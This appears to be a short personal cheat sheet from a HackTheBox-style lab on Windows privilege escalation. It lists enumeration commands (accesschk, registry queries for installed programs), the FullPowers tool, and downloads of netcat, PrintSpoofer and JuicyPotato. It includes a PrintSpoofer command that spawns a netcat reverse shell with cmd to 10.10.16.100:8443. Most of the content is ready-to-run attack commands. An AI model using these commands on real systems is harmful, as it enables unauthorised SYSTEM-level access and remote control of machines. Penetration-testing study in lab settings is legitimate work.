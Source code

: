 - Execute accesschk:
```python 
accesschk /accepteula \\.\Pipe\lsass -v #for lsass
#with powershell 
.\accesschk64.exe \pipe\SQLLocal\SQLEXPRESS01 -v 
```

- Get Installed Programs via PowerShell & Registry Keys

```powershell
PS C:\htb> $INSTALLED = Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* |  Select-Object DisplayName, DisplayVersion, InstallLocation

PS C:\htb> $INSTALLED += Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, InstallLocation

PS C:\htb> $INSTALLED | ?{ $_.DisplayName -ne $null } | sort-object -Property DisplayName -Unique | Format-Table -AutoSize
```

###  Windows User Privileges:
#### NT AUTHORITY / LOCAL SERVICE

https://github.com/itm4n/FullPowers

- Enable privilege like impersonate : 
```sh
whoami
FullPower.exe
```
#### SeImpersonate and SeAssignPrimaryToken:
#SeImpersonate  #SeAssignPrimaryToken

**NetCat:**

- Download Netcat:
```python
wget https://github.com/int0x33/nc.exe/blob/master/nc.exe
```

**PrintSpoofer:**

- Download PrintSpoofer:
```sh
wget https://github.com/dievus/printspoofer/raw/master/PrintSpoofer.exe
```
- Run command:
```cmd
C:\Tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.16.100 8443 -e cmd"
```

**Juicy Potatoes:**

- Download JuicyPotato:
```python
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
```
